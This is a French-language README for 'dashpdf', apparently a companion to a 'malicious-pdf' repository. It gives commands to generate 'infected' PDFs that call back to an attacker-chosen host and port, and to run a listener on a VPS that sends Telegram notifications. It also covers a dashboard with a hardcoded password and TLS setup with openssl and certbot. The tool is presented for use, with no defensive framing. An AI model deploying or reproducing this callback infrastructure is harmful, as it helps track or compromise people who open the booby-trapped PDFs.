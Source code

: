 # dashpdf

in use with https://github.com/tucommenceapousser/malicious-pdf

# Generer les pdf infectés

📌 Exemple d’utilisation

```bash
chmod +x generate_pdfs.sh
./generate_pdfs.sh 127.0.0.1 4545
```

Cela va :

générer les PDF avec http://127.0.0.1:4545 comme callback

déposer test1.pdf … test11.pdf directement dans ./dashpdf/

Exécution recommandée — rapide

1. Déposer listener.py et dashboard.py sur ton VPS (même dossier).


2. Exporter Token/Chat (si tu veux les notifications) :


```bash
export TELEGRAM_TOKEN="TON_TOKEN_ICI"
export TELEGRAM_CHAT_ID="TON_CHAT_ID_ICI"
```

3. Lancer le listener :


```bash
python3 listener.py --port 4545
```

ou si tu préfères passer en CLI :

```bash
python3 listener.py --port 4545 --tg-token "TON_TOKEN" --tg-chat "TON_CHAT_ID"
```

4. Lancer le dashboard :


```bash
python3 dashboard.py
```

### ouvrir http://<IP_VPS>:8080
### login: mot de passe = Trh@ckn0n

# SSL is optionnal :

# Générer un certificat auto-signé (rapide — pour tests)

Génère une clé RSA 4096 et un certificat auto-signé valide 1 an (remplace your.vps.domain si tu veux un CN spécifique) :

## dans /etc/ssl/private ou ton dossier de travail

```bash
mkdir -p ~/ssl && cd ~/ssl
```

### clé RSA 4096 sans passphrase (pratique pour services automatisés)

```bash
openssl genpkey -algorithm RSA -out key.pem -pkeyopt rsa_keygen_bits:4096
```
# certificat auto signé (CN = your.vps.domain)

```bash
openssl req -new -x509 -key key.pem -out cert.pem -days 365 \
  -subj "/C=FR/ST=IDF/L=Paris/O=MyLab/CN=your.vps.domain"
```

### Donne les fichiers key.pem (privée) et cert.pem (certificat public).

Protéger la clé :

```bash
chmod 600 key.pem
```


# Si tu veux un certificat public (Let's Encrypt)

> Nécessite : un nom de domaine pointant sur ton VPS (A/AAAA) et ports 80/443 accessibles.



# Installer certbot :

```bash
sudo apt update
sudo apt install certbot -y
```

## Obtenir un cert (mode standalone — arrêtera tout service sur le port 80 le temps du challenge) :

### Arrête / arrange ton listener si il écoute le port 80 (ou utilise nginx)

```bash
sudo systemctl stop listener.service  # si tu as mis en service, sinon arrête le processus
```

```bash
sudo certbot certonly --standalone -d your.vps.domain --agree-tos -m ton.email@example.com --non-interactive
```

Les fichiers seront dans /etc/letsencrypt/live/your.vps.domain/ :

```bash
/etc/letsencrypt/live/your.vps.domain/fullchain.pem (certificat)
```

```bash
/etc/letsencrypt/live/your.vps.domain/privkey.pem (clé privée)
```


## Configurer listener.py pour utiliser TLS

### Exemple de lancement du script avec tes fichiers :

### si auto-signé dans ~/ssl

```bash
python3 listener.py --port 4545 --ssl --cert ~/ssl/cert.pem --key ~/ssl/key.pem
```

# si Let's Encrypt

```bash
python3 listener.py --port 4545 --ssl --cert /etc/letsencrypt/live/your.vps.domain/fullchain.pem --key /etc/letsencrypt/live/your.vps.domain/privkey.pem
```
